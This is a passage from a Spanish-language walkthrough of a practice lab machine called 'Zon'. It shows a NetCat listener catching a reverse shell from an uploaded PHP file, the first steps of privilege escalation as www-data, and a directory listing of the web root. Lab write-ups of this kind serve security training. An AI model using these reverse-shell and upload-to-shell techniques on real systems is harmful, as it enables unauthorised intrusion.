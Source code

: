Tratemos de ponernos en escucha con **`NetCat`** para intentar recibir la **`Shell`**. Recordad que, en caso de haber especificado otro puerto en el fichero **`PHP`**, deberéis especificar dicho puerto en el comando:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Zon]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Ahora sí, tratemos de abrir el fichero que hemos subido a ver si tenemos suerte y nos entabla una conexión:

```shell
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Zon]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.103] from (UNKNOWN) [192.168.1.105] 37698
www-data@zon:/$
```

¡Qué bien! Hemos podido obtener una **`Reverse Shell`** y ahora estamos dentro de la máquina.

### Subida de privilegios #1
Ahora que nos encontramos como **`www-data`** tenemos que tratar de ir un paso más allá, en este caso, antes de obtener el **`control total`** de la máquina, deberemos pasar por otro usuario.

Si miramos el directorio **`/home/`{: .filepath }** veremos que hay un usuario llamado **`Freddie`**, por lo que tratemos de obtener una **`Shell`** como **`Freddie`**.

Comencé por lo más básico, mirar el directorio **`/var/www/html`{: .filepath }** en busca de un fichero no descubierto anteriormente:

```shell
www-data@zon:/var/www/html$ ls -la
total 152
drwxr-xr-x 8 www-data www-data  4096 Dec  3 15:10 .
drwxr-xr-x 3 root     root      4096 Nov 25 19:25 ..
-rw-r--r-- 1 www-data www-data 10538 Nov 30 07:15 about.php
-rw-r--r-- 1 www-data www-data 12490 Nov 30 07:15 blog.php
-rw-r--r-- 1 www-data www-data  1908 Nov 30 07:15 choose.php
-rw-r--r-- 1 www-data www-data 11753 Nov 30 07:15 contact.php
drwxr-xr-x 2 www-data www-data  4096 Nov 30 07:15 css
drwxr-xr-x 2 www-data www-data  4096 Nov 30 07:15 fonts
-rwxr-xr-x 1 www-data www-data   698 Nov 30 07:15 hashDB.sh
drwxr-xr-x 2 www-data www-data  4096 Nov 30 07:15 icon
drwxr-xr-x 2 www-data www-data  4096 Nov 30 07:15 images
-rw-r--r-- 1 www-data www-data 29170 Nov 30 07:15 index.php
drwxr-xr-x 3 www-data www-data  4096 Nov 30 07:15 js
-rw-r--r-- 1 www-data www-data   291 Nov 30 07:15 report.php
-rw-r--r-- 1 www-data www-data 12239 Nov 30 07:15 service.php
-rw-r--r-- 1 www-data www-data 17014 Nov 30 07:15 testimonial.php
-rw-r--r-- 1 www-data www-data  1421 Nov 30 07:15 upload.php
drwxr-xr-x 2 www-data www-data  4096 Feb 18 01:41 uploads
www-data@zon:/var/www/html$
```
